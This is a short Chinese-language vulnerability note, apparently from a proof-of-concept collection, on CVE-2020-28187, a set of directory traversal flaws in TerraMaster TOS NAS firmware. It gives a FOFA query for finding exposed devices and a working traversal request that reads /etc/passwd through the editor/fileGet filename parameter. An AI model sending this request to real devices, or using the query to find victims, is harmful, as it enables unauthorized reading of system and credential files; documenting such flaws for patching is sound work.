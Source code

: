 # TerraMaster TOS 任意文件读取漏洞 CVE-2020-28187

## 漏洞描述

TerraMaster TOS <= 4.2.06中的多个目录遍历漏洞允许远程身份验证的攻击者通过/tos/index.php?editor/fileGet路径下的filename参数、 /include/ajax/logtable.php路径下的Event参数和/include/core/index.php路径下的opt参数，读取文件系统中的任何文件。

## 漏洞影响

> TerraMaster TOS < 4.2.06

## FOFA

> "TerraMaster" && header="TOS"

## 漏洞复现

登陆后访问，验证漏洞的POC为

```
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```

![](resource/TerraMaster-TOS/tm-8.png)

